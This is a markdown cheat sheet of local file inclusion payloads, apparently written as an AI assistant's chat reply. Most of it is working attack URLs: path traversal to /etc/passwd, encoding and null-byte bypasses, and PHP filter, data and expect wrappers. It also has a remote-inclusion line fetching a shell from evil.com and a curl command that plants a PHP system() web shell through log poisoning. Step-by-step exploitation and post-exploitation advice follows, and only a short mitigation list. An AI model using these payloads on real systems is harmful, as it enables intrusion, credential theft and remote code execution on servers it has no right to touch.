 ```markdown
# Structured Breakdown of LFI Payloads

1. **PHP Wrappers (zip)**
   - Include files from within a ZIP archive.
   ```
   http://example.com/index.php?page=zip://payload.zip%23payload.php
   ```

2. **Basic Path Traversal**
   - This technique involves using `../` sequences to traverse up the directory structure.
   ```
   http://example.com/index.php?page=../../../../etc/passwd
   ```

3. **Double Encoding**
   - Double URL encode the traversal characters to obfuscate the payload further.
   ```
   http://example.com/index.php?page=%252e%252e%252f%252e%252e%252fetc%252fpasswd
   ```

4. **PHP Wrappers (filter)**
   - Use PHP’s `filter` wrapper to manipulate how files are read.
   ```
   http://example.com/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd
   ```

5. **URL Encoding**
   - Encode the traversal characters to bypass filters that block `../`.
   ```
   http://example.com/index.php?page=%2e%2e%2f%2e%2e%2fetc%2fpasswd
   ```

6. **Path Truncation**
   - Use excessively long paths to force truncation that can bypass checks.
   ```
   http://example.com/index.php?page=../../../../../../../../../../etc/passwd/././././.
   ```

7. **Null Byte Injection**
   - Use a null byte (`%00`) to terminate the string early, potentially bypassing file extension checks.
   ```
   http://example.com/index.php?page=../../../../etc/passwd%00
   ```

8. **UTF-8 Encoding**
   - Encode using UTF-8 to evade filters.
   ```
   http://example.com/index.php?page=%c0%ae%c0%ae%c0%ae%c0%ae/etc/passwd
   ```

9. **Existing Folder Traversal**
   - Exploit by navigating through existing folders in the web directory structure.
   ```
   http://example.com/index.php?page=scripts/../../../../etc/passwd
   ```

10. **Including `/proc` Files**
    - Exploit the `/proc` filesystem to gather sensitive information.
    ```
    http://example.com/index.php?page=/proc/self/environ
    ```

11. **Remote File Inclusion (RFI)** (when enabled)
    - This occurs if the server allows inclusion of files from external URLs. Though primarily an RFI attack, if misconfigured, it can overlap with LFI.
    ```
    http://example.com/index.php?page=http://evil.com/shell.txt
    ```

12. **Log File Poisoning**
    - Inject PHP code into server logs, then include the log file.
    ```
    # Injecting into the User-Agent header:
    curl -A "<?php system($_GET['cmd']); ?>" "http://example.com/"
    # Accessing the log file:
    http://example.com/index.php?page=/var/log/apache2/access.log
    ```

13. **Data Wrapper**
    - Use the `data` wrapper to embed and execute PHP code.
    ```
    http://example.com/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+
    ```

14. **Expect Wrapper**
    - The `expect` wrapper can be used to run shell commands directly if enabled.
    ```
    http://example.com/index.php?page=expect://ls
    ```

# Practical Steps for LFI Exploitation

1. **Discovery**:
   - Use tools like Burp Suite, DirBuster, or gobuster to discover possible LFI entry points.

2. **Initial Testing**:
   - Inject basic traversal sequences to see if the server responds with different content indicating directory traversal.

3. **Advanced Bypass**:
   - Try the various encoding methods or combined approaches to bypass filters.

4. **Gaining More Access**:
   - Once basic file access is achieved, escalate by including files like `/etc/passwd` and server configuration files or using log file poisoning to execute code.

5. **Post-Exploitation**:
   - Use included files to gather credentials, understand server configurations, or execute commands if code execution is possible.

# Mitigation

- Validate and sanitize all user inputs rigorously.
- Implement proper file inclusion checks and disable unnecessary PHP wrappers.
- Use whitelisting to control which files can be included.
- Ensure server error messages do not reveal directory structures or sensitive paths.

# Next Steps

- Consider how these techniques can be applied in different web application environments or CMS platforms.
- Explore the interaction between LFI and other vulnerabilities like SQL Injection for combined exploitation strategies.

Let me know if you have a specific scenario or application in mind. Let's explore further. Feel free to ask your questions!
```

You can copy this markdown text into any GitHub repository or Markdown editor to view it as formatted documentation.
